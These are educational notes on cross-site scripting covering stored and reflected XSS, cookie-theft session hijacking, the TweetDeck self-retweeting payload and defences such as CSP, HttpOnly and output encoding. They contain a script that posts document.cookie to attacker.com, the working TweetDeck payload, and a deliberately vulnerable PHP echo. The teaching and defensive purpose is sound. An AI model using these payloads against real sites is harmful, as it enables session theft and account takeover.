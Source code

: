 > [!motivation] The Dangers of Cross-Site Scripting (XSS)
>
> Cross-Site Scripting (XSS) is a prevalent security vulnerability in web applications, where an **attacker injects malicious scripts into web pages viewed by other users**. This type of attack leverages the trust a user has for a particular site, turning benign web pages into vehicles for delivering harmful scripts.

> [!idea] Understanding Stored XSS
>
> Stored Cross-Site Scripting (Stored XSS) occurs when malicious scripts are injected directly into a website's database through user inputs that are not adequately sanitized. These scripts are then delivered to other users' browsers when they access the compromised data.
>
> - **Persistence**: The malicious script persists in the database, affecting multiple users over time.
> - **Scope of Attack**: Can impact any user who accesses the data containing the script.
> - **Mitigation**: Requires stringent input validation and output encoding to prevent and neutralize these attacks.

> [!example] Example of Stored XSS Attack
>
> Consider a user who submits a comment on a blog post with the following malicious JavaScript embedded: `<script>alert('XSS');</script>`. If the comment is stored as-is in the database and then displayed to other users without sanitization, it executes the script in every visitor's browser, potentially leading to wider exploitation.

> [!idea] Exploring Reflected XSS
>
> Reflected Cross-Site Scripting (Reflected XSS) involves injecting a script into a web application that reflects the malicious script back to the user's browser as part of an immediate response. It typically occurs through URL parameters, form inputs, or any other data sent to the server that is then echoed back in the response.
>
> - **Immediate Execution**: The script does not persist in the database but is executed immediately in the user's browser.
> - **Social Engineering**: Often requires tricking a user into clicking a specially crafted link containing the malicious script.
> - **Prevention**: Focuses on validating and encoding user inputs and URL parameters to avoid executing untrusted scripts.

> [!example] Example of Reflected XSS Attack
>
> A user clicks on a link like `http://example.com/search?query=<script>alert('XSS');</script>`. The search term is reflected in the response without sanitization, causing the script to execute in the user's browser. This illustrates how attackers use social engineering to execute their scripts.

> [!consider] Stored vs. Reflected XSS
>
> - **Stored XSS**: Involves malicious scripts that are permanently stored on the server (e.g., in a database) and executed in multiple users' browsers when the stored data is displayed. This type of XSS is particularly harmful as it can affect many users over time. Mitigation includes thorough sanitization of stored data.
>
> - **Reflected XSS**: Occurs when a user's input is immediately returned by web applications without proper sanitization and displayed in the user's browser, executing malicious scripts. This form usually affects the user who sends the input and often requires social engineering to initiate. Preventing this involves real-time sanitization of inputs and outputs.

> [!idea] How XSS Attacks Facilitate Session Hijacking via Cookie Theft
>
> Cross-Site Scripting (XSS) can enable session hijacking by allowing attackers to inject scripts that covertly steal session cookies and send them to a malicious server. This attack bypasses the need for direct user interaction, making it harder to detect.
>
> - **Mechanism**: Attackers leverage XSS vulnerabilities to inject a script that accesses the session cookie and sends it to their server using an AJAX POST request. This approach keeps the user on the original page, maintaining the illusion of security.
> - **Impact**: Once the attacker obtains the session cookie, they can use it to impersonate the victim, accessing their account and sensitive data.
> - **Example**: An attacker injects the following script into a vulnerable web application:
>   ```javascript
>   var xhr = new XMLHttpRequest();
>   xhr.open("POST", "http://attacker.com/steal", true);
>   xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>   xhr.send("session=" + encodeURIComponent(document.cookie));
>   ```
>   This script creates an XMLHttpRequest to send the session cookie to the attacker's server without disrupting the user's experience, effectively hijacking the session.

> [!example] Real Example: Self-Retweeting Tweet in TweetDeck
>
> The XSS attack that affected TweetDeck used the following JavaScript snippet embedded in a tweet:
>
> ```html
> <script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in Tweetdeck')</script>♥
> ```
>
> - **Targeting the Script Element**: `$('.xss')` selects the `<script>` element itself using its class name 'xss'.
> - **Navigating the DOM**: `$('.xss').parents().eq(1)` navigates up the DOM to find the parent element of the `<script>` tag. This is typically a container like a `<div>` or `<span>` that contains the tweet.
> - **Finding and Clicking a Link**: `.find('a').eq(1).click();` looks for the second link within this parent container and simulates a click. This step could be designed to interact with other parts of the TweetDeck interface or to trigger additional actions like navigating or opening links.
> - **Triggering the Retweet**: `$('[data-action=retweet]').click();` specifically targets elements (usually buttons) with a `data-action` attribute set to 'retweet' and simulates a click, which causes the tweet to retweet itself.
> - **Alerting the User**: `alert('XSS in Tweetdeck')` then pops up an alert box, providing feedback that the XSS script executed, serving as a proof of concept for the attacker.

> [!consider] Comprehensive XSS and Session Hijacking Defense
>
> Protecting against XSS and session hijacking requires a multi-layered approach:
>
> - **Input Validation**: Sanitize and filter all user input to remove XSS payloads.
> - **Output Encoding**: Encode user data before rendering to treat scripts as plain text.
> - **Secure Frameworks**: Use frameworks with built-in XSS protection features.
> - **Content Security Policy (CSP)**: Whitelist trusted sources for scripts, styles, and resources to block injected scripts.
>
>   ```
>   Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com; object-src 'none'; base-uri 'self'; form-action 'self'
>   ```
>
>   This CSP allows scripts only from the site origin and `https://trusted.com`, blocks plugins/objects, restricts base URLs and form submissions.
>
> - **Secure Cookie Handling**: Use `HttpOnly` and `Secure` flags to prevent client-side script access to session cookies.
> - **Short Session Timeouts**: Minimize session hijacking window with short timeouts and re-authentication.
> - **Session Token Rotation**: Rotate tokens after sensitive operations to invalidate stolen tokens.
> - **CSRF Protection**: Implement CSRF countermeasures to prevent unauthorized state changes.
>


> [!example] Preventing XSS
>
> To effectively prevent XSS attacks, user input must be sanitized before it is rendered on the web page. Below are examples of how a specific input is transformed using PHP's sanitization functions.
>
> **Before Sanitization:**
> User input: `<script>alert('XSS');</script>`
>
> **PHP Code Before Sanitization:**
> ```php
> // Displaying user input directly
> echo $_POST['user_input'];
> ```
> This will execute the JavaScript and show an alert if `user_input` is `<script>alert('XSS');</script>`.
>
> **After Sanitization Using `htmlspecialchars`:**
> **PHP Code After Sanitization:**
> ```php
> // Sanitizing user input to prevent XSS
> $safe_input = htmlspecialchars($_POST['user_input'], ENT_QUOTES, 'UTF-8');
> echo $safe_input;
> ```
> With this sanitized input, the output in HTML will be: `&lt;script&gt;alert('XSS');&lt;/script&gt;`, which is rendered as text rather than being executed as JavaScript. This approach prevents the script from running and neutralizes the XSS threat.
>
> By combining these measures, web applications can effectively mitigate XSS vulnerabilities, prevent session hijacking, and enhance the overall security posture against various types of attacks targeting user sessions and sensitive data.

